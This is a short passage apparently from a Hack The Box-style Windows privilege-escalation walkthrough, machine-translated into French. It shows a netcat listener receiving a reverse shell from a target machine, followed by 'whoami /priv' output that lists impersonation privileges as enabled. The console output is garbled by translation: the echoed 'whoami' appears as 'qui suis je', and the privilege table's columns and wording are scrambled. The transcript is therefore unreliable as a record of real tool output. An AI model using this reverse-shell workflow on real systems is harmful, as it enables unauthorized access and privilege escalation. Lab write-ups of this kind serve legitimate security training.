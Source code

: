 ```
dsgsec@htb[/htb]$ nc -lvnp 8443

écoute sur [tout] 8443 ...
se connecter à [10.10.14.3] depuis (INCONNU) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) Microsoft Corporation 2016. Tous les droits sont réservés.

C:\Windows\system32>whoami

qui suis je
winlpe-ws03\sarah

C:\Windows\system32>whoami /priv

whoami /priv
INFORMATIONS SUR LES PRIVILÈGES
----------------------
Nom du privilège Description État
======================================== ========= ================================================= ======= ========
SeIncreaseQuotaPrivilege Ajuster les quotas de mémoire pour un processus Désactivé
SeSecurityPrivilege Gérer l'audit et la sécuritéjournal désactivé
SeTakeOwnershipPrivilege S'approprier des fichiers ou d'autres objets Désactivé
SeLoadDriverPrivilege Charger et décharger les pilotes de périphérique Désactivé
Performances système du profil SeSystemProfilePrivilege Désactivé
SeSystemtimePrivilege Modifier l'heure du système Désactivé
Processus unique du profil SeProfileSingleProcessPrivilege Désactivé
SeIncreaseBasePriorityPrivilege Augmenter la priorité de planification Désactivé
SeCreatePagefilePrivilege Créer un fichier d'échange Désactivé
SeBackupPrivilege Sauvegarder des fichiers et des répertoires Désactivé
SeRestorePrivilege Restaurer les fichiers et les répertoires Désactivé
SeShutdownPrivilege Arrêter le système Désactivé
Programmes de débogage SeDebugPrivilege désactivés
SeSystemEnvironmentPrivilege Modifier les valeurs de l'environnement du micrologiciel Désactivé
SeChangeNotifyPrivilege Bypass traverse la vérification activée
SeRemoteShutdownPrivilege Forcer l'arrêt à partir d'un système distant Désactivé
SeUndockPrivilege Supprimer l'ordinateur de la station d'accueil Désactivé
SeManageVolumePrivilege Effectuer des tâches de maintenance de volume Désactivé
SeImpersonatePrivilege Emprunter l'identité d'un client après l'authentification Activé
SeCreateGlobalPrivilege Créer des objets globaux Activé
SeIncreaseWorkingSetPrivilege Augmenter un ensemble de travail de processus Désactivé
SeTimeZonePrivilege Changer le fuseau horaire Désactivé
SeCreateSymbolicLinkPrivilege Créer des liens symboliques Désactivé
SeDelegateSessionUserImpersonatePrivilege Obtenir un jeton d'emprunt d'identité pour un autre utilisateur dans la même session Désactivé

```

Cela réussit et nous recevons un shell élevé indiquant que nos privilèges sont disponibles et peuvent être activés si nécessaire.
